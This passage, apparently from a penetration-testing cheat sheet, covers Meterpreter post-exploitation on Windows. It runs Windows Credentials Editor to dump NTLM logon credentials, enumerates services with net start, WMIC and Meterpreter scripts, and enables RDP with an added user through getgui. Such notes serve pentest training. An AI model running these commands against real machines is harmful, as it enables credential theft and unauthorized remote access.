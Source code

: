   1. Upload WCE to the remote machine.
  2. Execute WCE from the Meterpreter session using the following command:

     ```
     meterpreter > execute -f wce.exe -a -h
     ```
     Example output:
     ```
     Process 3628 created
     Channel 4 created
     WCE v1.42beta (X64) (Windows Credentials Editor) (c) 2010-2013 Amplia Security by Hernan Och
     ```
  3. Common options for WCE include:
     - `-l`: List logon sessions and NTLM credentials (default)
     - `-s`: Lists logon sessions and NTLM credentials indefinitely, refreshing every 5 seconds
     - `-c`: Run a specified command in a new session with NTLM credentials

  For more details, refer to the [WCE documentation](https://www.ampliasecurity.com/research/windows-credentials-editor/).




### Enabling the Stopped or Not Running Services 

Opening a Windows Command Prompt from a Meterpreter Shell

`  meterpreter > shell`
  
  ``` <cmd example here>
  net start
  ```
  Displays a list of all running services.

Checking Specific Services with WMIC
- Command:
  ``` <cmd example here>
  wmic service where 'Caption like "Remote%" and started=true' get Caption
  ```
  This command checks if specific services (e.g., services with "Remote" in their name) are enabled and running using WMIC.

Checking Services with Meterpreter Scripts
- Listing Services with `service_manager`:
  ``` <cmd example here>
  run service_manager -l
  ```

- Using `enum_services`:
  ``` <cmd example here>
  run post/windows/gather/enum_services
  ```

Enabling Remote Desktop (RDP)
- Using Meterpreter `getgui` Script:
  ``` <cmd example here>
  meterpreter > run getgui -e
  ```
  - Options:
    - `-e`: Enable RDP.
    - `-u <username>`: Add a user.
    - `-p <password>`: Add a password.

